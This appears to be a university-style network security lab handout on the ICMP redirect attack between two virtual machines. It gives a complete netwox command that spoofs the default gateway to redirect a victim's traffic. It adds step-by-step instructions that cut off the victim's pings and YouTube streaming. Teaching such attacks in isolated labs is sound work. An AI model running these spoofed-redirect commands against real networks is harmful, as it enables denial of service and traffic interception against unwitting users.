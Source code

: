 ## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network.

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

### Attack steps:

step 1. victim, run: $ ping www.google.com
make sure you ping command works and you do get response from google, otherwise this lab makes no sense.
if ping works, press ctrl-c to stop the ping command and move on to step 2.

step 2. attacker, run that attack command: $ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
step 3. victim, run: $ ping www.google.com (this time it should still succeed)
step 4: attacker, press ctrl-c to stop the attack command.
step 5: victim, run: $ ping www.google.com (this time it should fail, thus it proves the attack is successful.)

step 6: attacker, run: $ sudo sysctl net.ipv4.ip_forward=1 (immediately the victim's ping will then succeed, explain why?)
step 7: attacker, run: $ sudo sysctl net.ipv4.ip_forward=0 (turning this off so our attack will succeed.)

the next two steps attempt a new attack which disrupts the victim's video streaming service:

step 8: victim, open firefox, watch some youtube video.
step 9: attacker, run the exact same attack command as before: $ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1 (if successful, victim won't be able to watch the youtude video)
